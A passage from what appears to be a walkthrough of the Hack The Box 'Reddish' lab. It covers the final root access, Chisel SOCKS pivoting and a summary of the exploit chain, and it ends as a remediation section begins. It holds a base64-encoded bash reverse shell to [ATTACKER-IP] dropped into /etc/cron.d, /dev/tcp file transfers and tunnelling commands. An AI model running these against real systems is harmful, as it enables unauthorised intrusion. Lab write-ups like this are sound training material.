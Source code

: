 12. **Final Root Access and Flag Retrieval**
    - **Technique**: Mount disk and enumerate for the final flag.
    - **Steps**:
      - On the backup server, run `ip addr` to confirm IP (172.20.0.2).
      - Transfer LinEnum via `nc -lvnp 9006` and `cat </dev/tcp/172.20.0.3/8021 > lin.sh`.
      - Mount disks: `mount /dev/sda1 /tmp/sda1`, revealing `/root/root.txt`.
      - Read `root.txt` (33 characters).
      - Set up a final reverse shell to the main host (not a Docker container):
        - Create base64-encoded shell script: `echo "bash -i >& /dev/tcp/[ATTACKER-IP]/101 0>&1" | base64`.
        - Transfer and execute via `rsync` to `/etc/cron.d`.
        - Receive shell on `nc -lvnp 101`, confirming root access on the main host.
      - Run `python -c 'import pty;pty.spawn("/bin/bash")'` for a stable shell.
    - **Purpose**: Retrieve the final `root.txt` flag and gain full root access.

13. **Optional: SOCKS Proxy for Easier Pivoting**
    - **Technique**: Use Chisel to create a SOCKS5 proxy for dynamic routing.
    - **Steps**:
      - On attacker's machine: `./chisel server -p 8000 --reverse`.
      - On Node-RED container: `./chisel client [ATTACKER-IP]:8000 R:127.0.0.1:8001:127.0.0.1:1337`.
      - On Node-RED container, run a second Chisel: `./chisel server -p 1337 --socks5`.
      - On attacker's machine: `./chisel client 127.0.0.1:8001 socks`.
      - Use `proxychains` with `nmap` or `curl` to access internal IPs (e.g., `proxychains nmap -sT 172.19.0.3 -p 80`).
    - **Purpose**: Simplify access to multiple internal IPs without creating individual tunnels.

---

### Summary
The exploitation process involves:
- **Initial Access**: Nmap scanning and favicon analysis to identify Node-RED on port 1880, followed by command execution via HTTP POST requests.
- **Pivoting**: Using Chisel for reverse and local tunnels to access internal containers (web server and Redis on 172.19.0.2/3).
- **Code Execution**: Exploiting Redis to write a PHP file for a web shell, then upgrading to a reverse shell.
- **Privilege Escalation**: Abusing a cron job with `rsync` to gain root on the web server container.
- **Further Pivoting**: Chained Chisel tunnels to access the backup server, followed by another `rsync` exploit for root access.
- **Final Access**: Mounting disks to retrieve `root.txt` and establishing a root shell on the main host.

This sequence demonstrates advanced pivoting techniques using Chisel, exploitation of Node-RED and Redis, and cron job abuse with `rsync` to achieve full system compromise across multiple Docker containers.

## Security Gaps and Remediation

Below is a detailed analysis of the security gaps identified in the services and systems exploited in the "Reddish" Hack The Box scenario, along with specific recommendations for fixing these issues through source code or configuration changes. The gaps are organized by the services or systems involved (Node-RED, web server, Redis, rsync, Docker, and general network configuration) and include actionable fixes to mitigate the vulnerabilities.

---
